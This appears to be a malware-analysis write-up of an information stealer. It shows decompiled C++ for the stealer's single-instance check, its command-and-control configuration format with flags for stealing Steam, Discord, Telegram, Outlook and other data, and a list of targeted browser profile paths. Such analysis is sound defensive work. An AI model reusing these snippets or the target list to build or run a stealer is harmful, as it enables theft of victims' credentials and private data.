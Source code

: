 
# Anti double run

Prevents 2 copies of the stealer from running at the same time, the code is taken from Vidar stealer.

```cpp
while ( 1 ) // anti double run
{
    str_from_this_0 = (const CHAR *)get_str_from_this_0(v15);// HAL9TH_DESKTOP-CFJRVNP_debug
    hObject = OpenEventA(0x1F0003u, 0, str_from_this_0);
    if ( !hObject )
      break;
    CloseHandle(hObject);
    Sleep(0x1770u);
  }
  v6 = (const CHAR *)get_str_from_this_this_0(v15);
  hObject = CreateEventA(0, 0, 0, 0, v6);
```

# Server communication

All packets received and sent by the stealer are covered with Base64. Everything starts with receiving a package with configuration, which will be needed for further work.

```
0b5053a8b007d6effc8bfa7c580c06066aea9c9e8b11dd48a3924ef8b43e42993ff42512|done|fsfhghsdfd.docx|1|1|1|1|1|1|1|1|
```
Here's the config with my comments
```
0b5053a8b007d6effc8bfa7c580c06066aea9c9e8b11dd48a3924ef8b43e42993ff42512 - token
done - added to the last request to signal the server that the work is finished
fsfhghsdfd.docx - idk
1|1|1|1|1|1|1|1|1| - responsible for collecting data steam, discord, telegram, tox, outlook, pidgin, creating a screenshot, self-delete from the victim's computer.
```

Next we get a list of browsers from which data should be collected

```
Google Chrome|\Google\Chrome\User Data|chrome|chrome.exe|Google Chrome Canary|\Google\Chrome SxS\User Data|chrome|chrome.exe|Chromium|\Chromium\User Data|chrome|chrome.exe|Amigo|\Amigo\User Data|chrome|0|Torch|\Torch\User Data|chrome|0|Vivaldi|\Vivaldi\User Data|chrome|vivaldi.exe|Comodo Dragon|\Comodo\Dragon\User Data|chrome|0|EpicPrivacyBrowser|\Epic Privacy Browser\User Data|chrome|0|CocCoc|\CocCoc\Browser\User Data|chrome|0|Brave|\BraveSoftware\Brave-Browser\User Data|chrome|brave.exe|Cent Browser|\CentBrowser\User Data|chrome|0|7Star|\7Star\7Star\User Data|chrome|0|Chedot Browser|\Chedot\User Data|chrome|0|Microsoft Edge|\Microsoft\Edge\User Data|chrome|msedge.exe|Microsoft Edge Canary|\Microsoft\Edge SxS\User Data|chrome|msedge.exe|Microsoft Edge Beta|\Microsoft\Edge Beta\User Data|chrome|msedge.exe|Microsoft Edge Dev|\Microsoft\Edge Dev\User Data|chrome|msedge.exe|360 Browser|\360Browser\Browser\User Data|chrome|0|QQBrowser|\Tencent\QQBrowser\User Data|chrome|0|CryptoTab|\CryptoTab Browser\User Data|chrome|browser.exe|Opera Stable|\Opera Software|opera|opera.exe|Opera GX Stable|\Opera Software|opera|opera.exe|Mozilla Firefox|\Mozilla\Firefox\Profiles|firefox|0|Pale Moon|\Moonchild Productions\Pale Moon\Profiles|firefox|0|Opera Crypto Stable|\Opera Software|opera|opera.exe|Thunderbird|\Thunderbird\Profiles|firefox|0|
```
